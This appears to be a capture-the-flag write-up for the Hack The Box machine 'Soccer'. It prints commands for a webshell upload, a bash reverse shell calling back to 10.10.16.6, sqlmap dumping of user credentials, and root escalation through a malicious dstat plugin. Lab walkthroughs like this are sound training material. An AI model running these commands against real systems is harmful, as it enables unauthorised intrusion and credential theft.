 # [Soccer](https://app.hackthebox.com/machines/soccer)

```bash
nmap -p- --min-rate 10000 10.10.11.194 -Pn
```

![Alt text](img/image.png)


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,9091 10.10.11.194
```

![Alt text](img/image-1.png)


While browsing http port (80), it redirects into `soccer.htb` , that's why we need to add this ip address into '/etc/hosts' file.


Let's do directory enumeration.

```bash
feroxbuster --url http://soccer.htb/
```

![Alt text](img/image-5.png)

From this analysis, I go to page `/tiny`, which confronts with login page.

![Alt text](img/image-2.png)


I searched default credentials for `Tiny File Manager` application.

![Alt text](img/image-3.png)

admin: admin@123

This credentials worked.

![Alt text](img/image-4.png)


From enumeration, I can see that is `PHP` application. As I am admin user, I can upload files, that's why I select php webshell to upload.

![Alt text](img/image-6.png)


Now, I can execute commands by using webshell.

![Alt text](img/image-7.png)


Now, I will add reverse shell payload into here by using `curl` command to browse
```bash
curl http://soccer.htb/tiny/uploads/dr4ks.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.16.6/1337 0>%261"'
```

![Alt text](img/image-8.png)


I got reverse shell from port (1337).

![Alt text](img/image-9.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-10.png)


From folder `/etc/nginx/sites-enabled`, I can see new subdomain 'soc-player.htb', let's add this into **'/etc/hosts'** file.



I create account here. (Dr4ks: Dr4ks).

![Alt text](img/image-11.png)


I login into my account.

![Alt text](img/image-12.png)


I looked via ZAP proxy and want to inject `id` parameter for Websockets.

![Alt text](img/image-13.png)


From linux machine's `home` folder, I saw one user called `player`.




I will use `sqlmap` tool to try SQL injection payloads.

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3
```

![Alt text](img/image-14.png)

![Alt text](img/image-15.png)


Let's dump database's names via adding `--dbs` option.
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --dbs

```

![Alt text](img/image-16.png)


Let's see tables of `soccer_db` database via adding `--tables` option and `-D {database_name}`.

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D "soccer_db" --tables
```

![Alt text](img/image-17.png)



Let's dump data for `accounts` table via adding `--dump` option.
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D "soccer_db"  -T "accounts" --dump
```

![Alt text](img/image-22.png)


From here, I take credentials of '**player**' user.

player: PlayerOftheMatch2022


user.txt

![Alt text](img/image-18.png)


I looked at **SUID** files via this user.
```bash
find / -perm -4000 2>/dev/null
```

![Alt text](img/image-19.png)


The first binary called `doas` is actually the same as `sudo` command.

We can look it's configuration by typing `cat /usr/local/etc/doas.conf`.

![Alt text](img/image-20.png)


Our `player` user has privilege for `dstat` binary.

dstat is a tool for getting system information. Looking at the man page, there’s a section on plugins that says:
 
**Plugins are Python scripts with the name dstat_[plugin name].py.**


Let's create malicious `plugin` via below Python script.
```bash
echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_dr4ks.py
```

Then run like below by adding `plugin` name as option.
```bash
doas /usr/bin/dstat --dr4ks
```

root.txt

![Alt text](img/image-21.png)